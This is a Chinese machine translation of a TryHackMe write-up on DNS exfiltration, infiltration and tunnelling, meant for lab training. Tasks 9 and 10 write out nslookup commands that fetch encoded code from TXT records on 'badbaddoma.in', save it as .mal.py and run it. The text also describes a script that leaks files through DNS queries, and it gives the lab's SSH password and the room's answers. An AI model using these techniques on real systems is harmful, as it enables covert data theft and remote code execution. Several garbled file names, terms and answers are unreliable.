# DNS 操纵尝试黑客技术

> 原文：<https://infosecwriteups.com/dns-manipulation-tryhackme-writeup-7b625023a9a3?source=collection_archive---------2----------------------->

**作者 Shamsher khan 这是 Tryhackme room“DNS 操纵”的一篇文章**



[https://www.tryhackme.com/room/dnsmanipulation](https://www.tryhackme.com/room/dnsmanipulation)

**房间链接:**[https://www.tryhackme.com/room/dnsmanipulation](https://www.tryhackme.com/room/dnsmanipulation)
**注:此房免费**

# 任务 1:介绍

在这个房间里，我们将研究 DNS 并展示用于渗透数据的技术。首先，我们将了解 DNS 的用途、工作原理以及 DNS 记录的类型。

下图说明了一个基本的 DNS 查找。在这里，客户机通过 DNS 服务器将完全合格的域名(FQDN)解析为 IP 地址。


然后，我们将讨论如何通过 DNS 查询将 DNS 用作“数据过滤”和“数据渗透”工具。



最后，我们将了解 DNS 隧道，以及它如何用于通过 DNS“隧道”不同的协议，如(HTTP)。

# 任务 2:安装

**【用于 DNS 渗透和渗透的 Python 代码】**

我为您创建了几个用 Python 编写的简单脚本来完成本演练。这将允许我们对远程 DNS 服务器进行 DNS 查询。
`git clone [https://github.com/kleosdc/dns-exfil-infil](https://github.com/kleosdc/dns-exfil-infil)`

此外，确保您拥有运行 Python 代码所需的 Python3 模块。

使用以下命令安装所需的模块:

`sudo pip3 install -r requirements.txt`

**【用于 DNS 隧道的程序】**

[https://github.com/yarrick/iodine](https://github.com/yarrick/iodine)

`sudo apt install iodine`

**【下载 Wireshark】**

您可以使用 Wireshark 或 tshark 来捕获数据包。python 代码使用。PCAP 文件提取捕获的数据，然后解码它。
[https://www.wireshark.org/download.html](https://www.wireshark.org/download.html)

`sudo apt install -y tshark`

# 任务 3:[设置]自定义公共 DNS 服务器

如果你想建立和我一样的环境，你需要一个**公共域名**和一个**公共服务器**。

我不会扩大购买域名或提供面向公众的服务器，因为没有必要完成这个房间。

然而， **STOK** 已经创建了一个关于如何为 OOB(带外)数据渗透设置一切的优秀教程: [STOK 的视频](https://www.youtube.com/watch?v=p8wbebEgtDk)

# 任务 4:什么是 DNS？

介绍

在高层次上，域名系统是指用 IP 地址解析域名的命名系统。DNS 服务器分布在世界各地，它们以一种系统的方式不断更新和同步。当用户使用诸如 tryhackme.com[之类的域名发出请求时，DNS 会将其“翻译”成 IP 地址，然后最终向请求者提供正确的 IP 地址。还值得注意的是，在某些情况下，如果 DNS 记录由 Cloudflare 的 DDoS protection 等服务代理，则 DNS 返回的 IP 地址并不总是原始服务器的 IP 地址。](http://tryhackme.com)

从技术上来说，每台连接到互联网的设备都有一个 IP 地址，在与其他互联网设备通信时，该地址充当身份标识。因此，了解 DNS 的主要功能和“翻译”所经历的层次结构至关重要。

DNS 根域名服务器位于 DNS 层次结构的顶端或“根”,在互联网中扮演着重要角色。所有顶级域名(TLD)“区域”的信息，如。com，co.uk，。net 及其相关的域名服务器位于分布在世界各地的数百个根域名服务器中。

下面是 Cloudflare 的一个插图，可以更好地描述这种层次结构。



来源:[https://www . cloud flare . com/learning/DNS/glossary/DNS-root-server/](https://www.cloudflare.com/learning/dns/glossary/dns-root-server/)

以下是包含根服务器和 DNS 区域更多信息的一些资源:

[https://www . cloud flare . com/learning/DNS/glossary/DNS-root-server/](https://www.cloudflare.com/learning/dns/glossary/dns-root-server/)

[https://www.cloudflare.com/learning/dns/glossary/dns-zone/](https://www.cloudflare.com/learning/dns/glossary/dns-zone/)

[https://www.iana.org/domains/root/servers](https://www.iana.org/domains/root/servers)

有更多的 DNS 记录类型。但是，为了完成本演练，没有必要知道它们。

如果您想了解有关 DNS 记录类型的更多信息，请参考本文:

https://www.cloudflare.com/learning/dns/dns-records/。

**问题 1:** 如果您使用的是 Windows，您可以使用什么命令来查询“youtube.com”的 txt 记录？

> 【youtube.com】答案:nslookup-type = txt

**问题 2:** 如果你在 Linux 上，可以用什么命令来查询“facebook.com”的 txt 记录？

> **回答:挖 facebook.com txt**

**问 3:** AAAA 会将哪种类型的 IP 地址与主机名一起存储？

> **答案:IPv6**

**问题 4:**DNS TXT 记录的最大字符数为 256。(是/不是)

> **回答:否**

**问 5:** 什么 DNS 记录在反向查找中提供域名？(研究)

> **答案:PTR**

**问题 6:** 以下 IPv4 地址的反向查找是什么？(192.168.203.2)(研究)



> **答案:2.203.168.192.in-addr.arpa**

# 任务 5:什么是 DNS 渗出？

DNS 渗透是通过 DNS 对服务器进行的网络攻击，根据攻击者的物理位置和与目标设备的接近程度，可以手动或自动执行。在手动情况下，攻击者通常会获得对目标设备的未经授权的物理访问权，以便从环境中提取数据。而在自动 DNS 渗透中，攻击者使用恶意软件在受损网络内部进行数据渗透。

DNS 是一种通常在目标计算机上可用的服务，通常允许 TCP 或 UDP 端口 53 上的出站流量。这使得 DNS 成为黑客用来泄露数据的首选。

通过 DNS 的数据泄漏可能允许攻击者从目标环境中传输大量数据。此外，DNS 渗透主要用作收集个人信息的途径，如社会安全号码、知识产权或其他个人身份信息。

DNS 过滤主要通过向 DNS UDP 请求添加包含所需“loot”的字符串来使用。然后，包含 loot 的字符串将被发送到记录这些请求的流氓 DNS 服务器。对于未经培训的人来说，这可能看起来像正常的 DNS 流量，或者这些请求可能会在许多合法 DNS 请求的混乱中丢失。

**问 1:**DNS 名称的最大长度是多少？(研究)(**长度包括圆点！**)

> **答案:253**

# 任务 6: DNS 渗透—演示

介绍

在这个示例场景中，攻击者试图将数据泄漏到他们的系统中，并决定他们的最佳选择是使用 DNS 查询。攻击者的目标是从 SecureCorp 网络上的机器中泄漏敏感信息。在这个演示中，我将展示攻击者可能采取的步骤，以便从受损的机器中泄漏这些数据。



以下材料是通过假信用卡生成器生成的。所有信用卡信息都是假的。

这个演示使用的文件在我在 GitHub 上的 dns-exfil-infil repo 中。你将需要文件来完成房间的其余部分。

1.  secure corp . txt([https://github . com/kleosdc/DNS-exfil-infil/blob/main/secure corp . txt](https://github.com/kleosdc/dns-exfil-infil/blob/main/securecorp.txt)
2.  packet y . py([https://github . com/kleosdc/DNS-exfil-infil/blob/main/packet y . py](https://github.com/kleosdc/dns-exfil-infil/blob/main/packety.py))
3.  packet grabber . py([https://github . com/kleosdc/DNS-exfil-infil/blob/main/packet grabber . py](https://github.com/kleosdc/dns-exfil-infil/blob/main/packetyGrabber.py))

1.包含假信用卡号码，姓名，地址的文本文件。



2.packet y . py([https://github.com/kleosdc/dns-exfil-infil](https://github.com/kleosdc/dns-exfil-infil))

当执行 [packety.py](http://packety.py/) 时，您需要为脚本提供以下输入:

* **文件名**:(这是您试图从 SecureCorp 的网络中泄漏的文件(建议使用文本文件)

* **域名**:(这是你要放域名的地方，比如我的域名是 badbaddoma.in)



python packety.py

文件名:securecorp.txt

域名(例如:badbaddoma.in): badbaddoma.in

[+]正在读取文件。

[+] Base64 编码。

[+] Base58 编码。

开始传输…[按回车键]

代码从读取文本文件开始。文本文件的内容将首先进行 Base64 编码，然后进行 Base58 编码。这留给我们一个长的编码字符串。然后，字符串被分成 20 个字符长的部分，每个部分将添加 3 个“虚拟”字符，以便进一步混淆。一个字符将被添加到编码字符串的前面，两个字符将被添加到后面。

例如，编码数据的一部分可能如下所示:'**6 gfghhjywsas 3r 4g hda 3**'。在添加额外的字符后，它将以“**x 6 gfghhjywsas 3r g 4 hda 3 Yu**”结束。

一旦一切都被编码并准备好，代码将等待用户按下“ENTER”键，以便开始将查询传输到 DNS 服务器。DNS 服务器可能已经设置为使用“Wireshark”或“tshark”来捕获传入的请求。



然后就是等传输达到 100%的问题了。如果任何一个查询没有按正确的顺序按时提交，那么泄露的数据将是不完整的，对攻击者来说是无用的。



3.packet grabber . py([https://github.com/kleosdc/dns-exfil-infil](https://github.com/kleosdc/dns-exfil-infil))

该代码将要求用户输入以下内容:

* **文件被捕获**:这是。您在 DNS 服务器上捕获的 pcap 文件。

* **文件名输出**:这是保存解码数据的文件名。

* **域名**:这将是你的域名。



如果一切顺利，没有丢失任何查询，并且所有输入都是正确的；包含解码数据的文件将保存在运行代码的目录中。



# 任务 7: DNS 渗透—练习

SSH 凭据:

```
Username: user
Password: P@ssword01
```



我使用问题中提供的 ssh 凭证登录。



然后我在 order.pcap 上运行 packetyGrabber



**Q.1:** 交易名称是什么？(按您看到的样子键入)

> ***答案:网络装备。***

**问题 2:** 防火墙多少钱？(不带美元)

> **答案:2500**

**问 3:** 哪个文件包含可疑的 DNS 查询？

> **答案:*cap 3 . pcap***



**问题 4:** 使用~/dns-exfil-infil/ folder 中的 packetyGrabber.py 对数据进行解码后，输入纯文本。

> ***回答:管理员:s3cre7P@ssword***

# 任务 8:什么是 DNS 渗透？

DNS 渗透是攻击者利用组织的域名系统中的各种漏洞的另一种方法。与 DNS 上的渗透攻击不同，渗透定义了运行恶意代码来操纵 DNS 服务器的过程，这种操作或者使用攻击者远程连接到网络基础设施的自动系统，或者手动进行。

DNS 渗透主要用于文件丢弃或恶意软件升级。借助基于行为、特征或信誉的威胁检测系统，这种攻击方法有可能被捕获。

但是，如果这种传输数据的方法不被注意，它可能会导致恶意活动，例如在组织的环境中执行代码。从历史上看，这给许多著名的公司带来了巨大的破坏和混乱。

总之，DNS 协议可用作隐蔽协议，有助于恶意软件准备和执行与攻击者的 C2(命令和控制)服务器进行通信。在下一个任务中，我们将探讨如何实现。

**问 1:** 通常使用什么类型的 DNS 记录将数据渗透到网络中？

> **答案:txt**

# 任务 9: DNS 渗透—演示

在这种情况下，攻击者会将一段“恶意”代码渗透到受害者的计算机上。现实世界中的攻击者使用许多不同的技术来实现这一点。为了简单起见，我将使用一个设置在我的公共 AWS DNS 服务器上的 TXT 记录。包含在该记录中的值被编码为“恶意”代码。

由于 TXT 记录被限制为 255 个字符，黑客很可能会为他们的 DNS 服务器配置多个 TXT 记录。这最终取决于他们的代码有多长。既然一切都已设置就绪；黑客需要做的只是请求那些 TXT 记录，获取值，解码它们，然后爆炸..他们现在已经通过 DNS TXT 记录将自己的代码渗透到一个被入侵的系统中。



下面可以看到我的 TXT 记录。



用于此演示的文件

1.`nslookup`

这将首先查找 rt1.badbaddoma.in 的 TXT 记录，然后获取引号内的值，最后将该值保存到名为“. mal.py”的文件中。

`nslookup -type=txt rt1.badbaddoma.in | grep Za | cut -d \" -f2 > .mal.py`

2.packet simple . py([https://github.com/kleosdc/dns-exfil-infil](https://github.com/kleosdc/dns-exfil-infil)

当代码要求您输入“文件名”时，请输入文件名“. mal.py”。这是我们保存编码值的文件。



# 任务 10: DNS 渗透—练习

使用来自**【任务 7】DNS 渗透—练习**的相同虚拟机。

阅读在`~/challenges/infiltration/`文件夹中找到的任务文件。

您可以使用[任务 9] DNS 渗透-演示中使用的相同命令。请记住，您需要调整“grep”部分，并使用适当的字符进行匹配。例如，如果 TXT 记录中的文本值以“G6…”开头，则需要使用“grep G6”。

按照任务文件中的说明完成该问题。

**问题 1:** 输入执行的 python 文件的输出

```
nslookup -type=txt badbaddoma.in | grep ig | cut -d \" -f2 > .mal.py
cat .mal.py
nslookup -type=txt code.badbaddoma.in
```



```
nslookup -type=txt code.badbaddoma.in | grep Ye | cut -d \" -f2 > .mal.py
python3 ~/dns-exfil-infil/packetySimple.py
cat .mal.py
python3 .mal.py
```



> **答案:4 . 4 . 0–186-通用**

# 任务 11: DNS 隧道

在前两个任务中，我们已经看到了如何使用 DNS 请求和响应来渗透和执行有效负载。公司通常会安装防火墙、IDSs(入侵检测系统)和/或 IPSs(入侵保护系统),以便在不需要的入站和出站协议通过其网络时进行预防/报警。公司很少监控的一个协议是 DNS。正因为如此，黑客能够通过使用 DNS 隧道绕过许多“不想要的”协议。

# 演示

在这个演示中，我们将探索黑客如何通过使用 HTTP over DNS 绕过各种受限网站。为了达到这个目的，我将使用“碘”。你可以在这里阅读更多关于‘碘’的内容:[碘](https://code.kryo.se/iodine/)。


我的设置如下:

*   我有一台 AWS 托管的 Linux 机器，它将成为 DNS 隧道服务器。
*   在我的本地计算机上运行的 Ubuntu VM 将成为 DNS 隧道客户端。
*   谷歌域名( [badbadtunnel.in](http://badbadtunnel.in/) )上托管的公共域名

这是 DNS 配置的样子:

